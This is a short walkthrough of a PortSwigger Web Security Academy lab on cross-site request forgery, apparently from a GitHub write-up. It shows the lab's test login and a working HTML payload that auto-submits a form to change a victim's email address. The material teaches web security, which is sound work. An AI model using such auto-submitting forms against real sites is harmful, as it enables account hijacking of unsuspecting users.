




# Lab: CSRF vulnerability with no defenses
 This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter

# Solution
We start by logging in with the provided credentials. We are presented with a form for updating the email for the logged in user.  



And checking the HTML we can see the action / endpoint used to change the email address.  



Copying the form to our own "site" and adding our evil email to the input field value we can use JavaScript to automatically submit the form as soon as the JavaScript is loaded in the users browser.  
```html
<html>
	<body>
		<form class="login-form" name="change-email-form" action="https://0ad3002e0307a24e80f31ca600b100d1.web-security-academy.net/my-account/change-email" method="POST">
			<label>Email</label>
			<input required type="email" name="email" value="evil@pwned.com">
			<button class='button' type='submit'> Update email </button>
		</form>
		<script>
			document.forms[0].submit()
		</script>
	</body>
</html>
```


Trying the exploit out for our self we can see that the email is changed on our account.  



Let's change the email (cause only unique emails are allowed) and deliver to victim.  
